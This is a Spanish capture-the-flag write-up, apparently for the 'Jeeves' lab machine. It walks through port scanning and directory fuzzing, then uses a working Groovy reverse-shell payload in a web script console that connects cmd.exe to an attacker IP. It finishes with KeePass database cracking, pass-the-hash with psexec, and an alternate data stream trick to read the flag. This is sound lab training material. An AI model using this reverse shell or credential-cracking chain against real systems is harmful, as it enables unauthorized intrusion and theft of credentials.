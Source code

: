 
![](../img/Jeeves/0.png)

#Windows #Medium 
___

Comenzamos con un reconocimiento básico de la máquina mediante el escaneo de puertos. Para ello, utilizamos **RustScan** de la siguiente manera:

```bash
sudo rustscan -a 10.129.228.112 --ulimit 5000 -r 1-65535 -- -sCV -oN targeted
[sudo] password for kali: 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.228.112:80
Open 10.129.228.112:135
Open 10.129.228.112:445
.....
```

Procedemos a inspeccionar las páginas web disponibles, identificando que están accesibles a través de los puertos 80 y 5000. Además, verificamos la existencia de sesiones nulas en los protocolos RPC y SMB.

### Puerto 80

![](../img/Jeeves/1.png)

### Puerto 50000

![](../img/Jeeves/2.png)

### Realizamos una comprobación de los protocolos SMB y RPC para determinar si aceptan sesiones nulas.

### SMB

![](../img/Jeeves/3.png)

### RPC

![](../img/Jeeves/4.png)


Después de realizar las comprobaciones y análisis iniciales, procedemos a realizar un fuzzing en los dos aplicativos web con el objetivo de identificar posibles subdirectorios.



![](../img/Jeeves/5.png)

Durante el reconocimiento comprobamos la existencia de un direcotio llamado *askjeeves*

Una vez dentro, procedemos a nevegar en la pagina web, y obsevamos que tenemos una seccion de script, para ello usamos un comando que aprovecha de Grovy script para darnso una reverse shell

![](../img/Jeeves/6.png)


![](../img/Jeeves/7.png)


```Groovy
String host='10.10.14.59';
int port=1234;
String cmd='cmd.exe';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Si todo sale bien procedemos a obtener una reverse shell

![](../img/Jeeves/8.png)

Ahora toca escalar privilegios

Para ello, comenzamos buscando archivos **.kdbx** utilizando el siguiente comando:

```cmd
dir C:\*.kdbx /S /A:-D
```

Esto nos proporcionó como resultado una base de datos. Utilizamos **keepass2john** para convertirla a un formato compatible con **John the Ripper** y procedimos a realizar un ataque de fuerza bruta para descifrarla.

![](../img/Jeeves/9.png)

![](../img/Jeeves/10.png)

Logramos descifrar la base de datos utilizando **John the Ripper**.

![](../img/Jeeves/11.png)

A continuación, utilizamos **KeePassXC** para abrir la base de datos. Con la contraseña descifrada previamente con **John the Ripper**, obtenemos un hash de administrador. Posteriormente, empleamos la utilidad **psexec.py** de **Impacket** para establecer una conexión con el sistema.

![](../img/Jeeves/12.png)

Una vez conectado procedemos a encontrar la bandera de root pero al entrar al escriotorio nos percatamos que soo hay un archivo llamado hm.txt, para procedimos a hacer el siguiente comando 

```cmmd
dir /s/r hm.txt
```

Obteniendo como resultado lo siguiente.

![](../img/Jeeves/13.png)

Ejecutamos el siguiente comando para verificar si podemos acceder al flujo alternativo de datos:

```cmd
more < hm.txt:root.txt
```

Obteniendo como resultado la flag.
